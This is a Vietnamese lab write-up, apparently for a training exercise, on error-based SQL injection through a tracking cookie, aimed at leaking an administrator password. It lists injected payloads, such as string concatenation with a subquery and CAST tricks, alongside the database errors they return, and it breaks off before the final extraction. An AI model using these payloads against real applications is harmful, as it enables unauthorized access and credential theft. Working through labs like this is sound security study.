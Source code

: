 # Đầu bài cho biết:
- Ứng dụng có lỗ hổng SQL injection dựa trên lỗi hiển thị trong cookie theo dõi.
- Ứng dụng thực hiện truy vấn SQL chứa giá trị cookie.
- Kết quả truy vấn SQL không được trả về, nhưng lỗi được hiển thị.
- Cơ sở dữ liệu chứa bảng users với các cột username và password.

# Yêu cầu:
- Tìm cách để lộ mật khẩu của người dùng administrator.

# Solution:

- '

Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = 'RvVJ6xRwjtKqdmER''. Expected char

- '-- -> 200

- '' -> 200

- '||  ||'

- '|| (SELECT password FROM users WHERE username = 'administrator') ||'
  
Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = 'RvVJ6xRwjtKqdmER'|| (SELECT password FROM users WHERE userna'. Expected  char
Có vẻ như chỗ này bị giới hạn số lượng từ trong truy vấn

- '|| (CAST(SELECT password FROM users)) ||'

ERROR: syntax error at or near "SELECT"
  Position: 62

- '|| (CAST(SELECT password FROM users) AS int) ||'

Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = 'RvVJ6xRwjtKqdmER'|| (CAST(SELECT password FROM users) AS int'. Expected  char

- '|| (CAST(SELECT 1) AS int) ||'

ERROR: syntax error at or near "SELECT"
  Position: 62

- 'AND CAST((SELECT 1) AS int)--

ERROR: argument of AND must be type boolean, not type integer

- 'AND 1=CAST((SELECT 1) AS int)--












